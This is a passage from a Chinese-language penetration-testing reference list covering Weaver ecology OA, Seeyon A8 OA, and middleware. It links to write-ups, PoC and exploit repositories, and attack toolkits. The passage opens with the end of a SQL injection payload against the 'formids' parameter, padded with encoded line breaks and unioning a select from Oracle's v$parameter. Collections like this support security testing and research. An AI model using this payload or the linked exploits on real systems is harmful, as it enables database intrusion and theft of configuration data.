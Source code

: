     formids=11111111111)))%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0dunion select NULL,value from v$parameter order by (((1
    ```

**泛微 ecology OA 系统接口存在数据库配置信息泄露漏洞**
- 文章
    - [泛微ecology OA数据库配置信息泄露漏洞复现](https://mp.weixin.qq.com/s/u8GIfMBRZFAN3HANSSSgQA)

- POC | Payload | exp
    - [jas502n/DBconfigReader](https://github.com/jas502n/DBconfigReader)

---

## 致远

> 官网 : http://www.seeyon.com/

**A8-OA-seeyon-RCE**
- 文章
    - [致远A8协同办公系统poc/seeyon 0day](https://www.jianshu.com/p/562f45edde2d)

- POC | Payload | exp
    - [RayScri/A8-OA-seeyon-RCE](https://github.com/RayScri/A8-OA-seeyon-RCE)

---

# 框架和中间件

**文章**
- [中间件漏洞合集](https://mp.weixin.qq.com/s/yN8lxwL-49OKfVR86JF01g)

**工具包**
- [1120362990/vulnerability-list](https://github.com/1120362990/vulnerability-list) - 在渗透测试中快速检测常见中间件、组件的高危漏洞.
- [hatRiot/clusterd](https://github.com/hatRiot/clusterd) - application server attack toolkit
- [matthiaskaiser/jmet](https://github.com/matthiaskaiser/jmet) - Java Message Exploitation Tool
